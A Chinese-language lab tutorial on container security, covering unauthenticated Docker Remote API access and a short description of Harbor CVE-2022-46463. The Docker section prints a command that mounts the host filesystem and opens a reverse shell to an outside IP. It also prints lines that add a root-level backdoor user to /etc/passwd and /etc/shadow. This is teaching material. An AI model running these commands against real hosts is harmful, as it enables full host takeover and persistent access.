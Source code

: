 # 容器安全

## Docker API 未授权访问

Docker Remote API 是 Docker 引擎提供的一个 REST API，用于远程管理 Docker 容器和镜像。Docker 守护进程使用 Unix 套接字进行本地通信，但如果配置不当，例如将守护进程绑定到 0.0.0.0，则会暴露在网络上。如果没有设置访问权限控制，如未启用 TLS 认证或防火墙限制，攻击者就可以直接通过网络访问该 API，无需认证即可执行各种 Docker 操作命令。由于 Docker 默认以 root 权限运行，如果此功能暴露给攻击者，可能导致严重后果。

### 环境搭建

在 Ubuntu 22.04 安装 Docker，

<https://docs.docker.com/engine/install/ubuntu/>

默认情况下，Docker 守护进程通过 Unix 套接字监听本地客户端的连接请求。您可以通过配置 Docker 同时监听 IP 地址、端口以及 Unix 套接字，使其能够接受来自远程客户端的请求。
<https://docs.docker.com/engine/daemon/remote-access/>

```bash
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375
```

```bash
docker -H tcp://x.x.x.x:2375 run --rm -v /:/mnt ubuntu chroot /mnt /bin/bash -c "bash -i >& /dev/tcp/192.168.1.130/4444 0>&1"
```

由于我们将宿主机的根目录挂载到容器中，因此可以从容器内直接修改宿主机的 `/etc/passwd` 和 `/etc/shadow` 文件，添加自定义用户或修改密码，进而通过 SSH 登录宿主机。

```bash
echo 'hacker:x:0:0:hacker,,,:/home/hacker:/bin/bash' >> /etc/passwd
```

| 字段            | 说明                                                                 |
|-----------------|----------------------------------------------------------------------|
| `hacker`        | **用户名**：系统登录时使用的账户名称。                              |
| `x`             | **密码占位符**：实际密码加密后存储在 `/etc/shadow` 文件中。          |
| `0`          | **用户ID (UID)**：唯一标识用户的数字，用于权限控制。 UID 0 是 root 的标识 |
| `0`          | **用户组ID (GID)**：用户所属主组的唯一标识。                         |
| `hacker,,,`     | **用户描述信息**：可包含全名、联系方式等（此处为空）。               |
| `/home/hacker`  | **家目录路径**：用户专属文件存储目录，默认位于 `/home/` 下。         |
| `/bin/bash`     | **默认 Shell**：用户登录后启动的命令行解释器（此处为 Bash）。        |

密码哈希值（`$6` 表示 SHA-512 算法）,明文密码为`dev`。

```bash
echo 'hacker:$6$gB/z0wS0$BZ.Zoj6QsXn4uwKUi6/zZm0ga/IJf7YHVneEXut0I06.ZywgtKcB79Mj.EAymXubo8tuos9Fr.aFCWs8PNH6T1:17096:0:99999:7:::'>> /etc/shadow
```

### 参考资料

- <https://github.com/0xchang/DockerApiRCE>
- <https://www.trendmicro.com/en_hk/research/24/j/attackers-target-exposed-docker-remote-api-servers-with-perfctl-.html>
- <https://medium.com/@cloudsectraining/abusing-docker-remote-api-bef6a099cfd3>

## Habor 未授权访问漏洞（CVE-2022-46463）

Harbor 是一个开源的 **企业级容器镜像仓库**，由 VMware 公司（现为 Broadcom 旗下）开发并捐赠给 CNCF（云原生计算基金会）。它提供了安全、高效的 Docker 镜像存储和管理功能，适用于企业级 DevOps 和云原生环境。

Harbor 采用 微服务架构，主要组件包括：

Core：核心服务，处理 API 请求。
Registry：存储 Docker 镜像（基于 Distribution）。
Database（PostgreSQL）：存储用户、项目、权限等元数据。
Redis：缓存会话和临时数据。
Job Service：处理异步任务（如镜像复制、垃圾回收）。
Portal：Web UI 管理界面。
Notary（可选）：镜像签名验证。
Trivy/Clair（可选）：漏洞扫描。

由于 Harbor 的访问控制缺陷，未认证的攻击者可通过该漏洞获取公开和私有镜像仓库的全部信息，对私有仓库的未授权访问可能泄露专有应用代码、容器镜像中硬编码的凭据或令牌，还可能暴露过时镜像中的安全漏洞。

### 环境搭建

```bash

```

### 参考资料

- <https://github.com/404tk/CVE-2022-46463>
- <https://mp.weixin.qq.com/s/21V_TACA-UEeKdM2_D-0oQ>

